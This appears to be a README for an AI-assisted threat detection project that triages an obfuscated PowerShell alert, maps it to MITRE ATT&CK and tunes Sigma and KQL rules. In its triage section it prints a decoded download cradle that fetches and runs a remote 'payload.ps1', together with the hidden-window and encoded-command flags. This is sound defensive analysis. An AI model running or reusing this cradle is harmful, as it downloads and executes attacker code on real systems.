


# AI-Assisted Threat Detection & Engineering Framework
**Project Focus:** SOC Triage Automation, Detection Engineering, and MITRE ATT&CK Mapping

---

## 1. Project Overview & Goal
The objective of this project is to build an AI-powered detection engineering assistant. The system takes raw security alerts and accompanying multi-source event logs, automates the initial triage process, constructs an attack hypothesis, maps the malicious behavior to the MITRE ATT&CK framework, and suggests optimized detection queries (Sigma/KQL) to mitigate future risks.

---

## 2. Sample Alert Scenario & Enriched Log Context
The pipeline was tested against a high-frequency enterprise threat vector: **Suspicious PowerShell Execution via an Obfuscated Command**.

### Enriched Input Package
*   **Alert Title:** Suspicious PowerShell Execution - Obfuscated Command
*   **Target Host:** `WKSTN-FIN-09` (Finance VLAN)
*   **Compromised User Account:** `jdoe_admin`
*   **Raw Evidence Collected:** 
    *   **Sysmon Event ID 1 (Process Creation):** Captured `powershell.exe` spawned by a batch script running from a local temporary directory (`\Temp\update.bat`) utilizing high-evasion flags (`-NoP`, `-NonI`, `-W Hidden`, `-Enc`).
    *   **Sysmon Event ID 3 (Network Connection):** Documented an immediate outbound TCP connection over Port 80 initiated by the malicious PowerShell process to an external, untracked network endpoint (`192.168.1.250`).

---

## 3. AI Triage Engine Output
When the raw JSON context was ingested by the Gemini triage engine, the system automatically extracted the telemetry, decoded the base64 command string, and returned the following analysis:

*   **Decoded Vector:** `IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.250/payload.ps1')`
*   **Attack Hypothesis:** The threat actor achieved initial execution privileges via a local script, using an obfuscated PowerShell cradle to download an secondary payload (`payload.ps1`) from a remote command-and-control server to establish a persistent foothold in the Finance subnet.
*   **MITRE ATT&CK Identification:** 
    *   Execution: Command and Scripting Interpreter: PowerShell (**T1059.001**)
    *   Defense Evasion: Obfuscated Files or Information: PowerShell Encoded Command (**T1027.001**)
    *   Command and Control: Ingress Tool Transfer (**T1105**)

---

## 4. Analyst Validation & Rule Tuning
*For full technical details, reference the dedicated `validation.txt` file.*

During peer review of the AI's automated output, a critical structural logic flaw was identified in the AI's draft Sigma rule. The model attempted to match explicit strings (`DownloadString`) within an active Base64 obfuscated field. 

To resolve this and eliminate catastrophic false-negative rates, the detection logic was manually engineered into a two-pronged production-ready standard:
1.  **Process Creation Baseline (Sigma):** Relies cleanly on process execution strings checking exclusively for the combination of high-evasion runtime parameters (`-w hidden`, `-enc`).
2.  **Script Block Logging (KQL):** Shifts monitoring to post-decryption visibility fields (Windows Event ID 4104) to cleanly inspect the raw string variables after memory-decoding takes place.

---

## 5. Summary of Deliverables Created
*   `Ai_agent.py` - Core Python engine integrating with the GenAI SDK.
*   `validation.txt` - Human validation log documenting rule corrections, noise mitigation metrics, and accuracy tuning.
*   `README.md` - Master technical report and framework documentation.
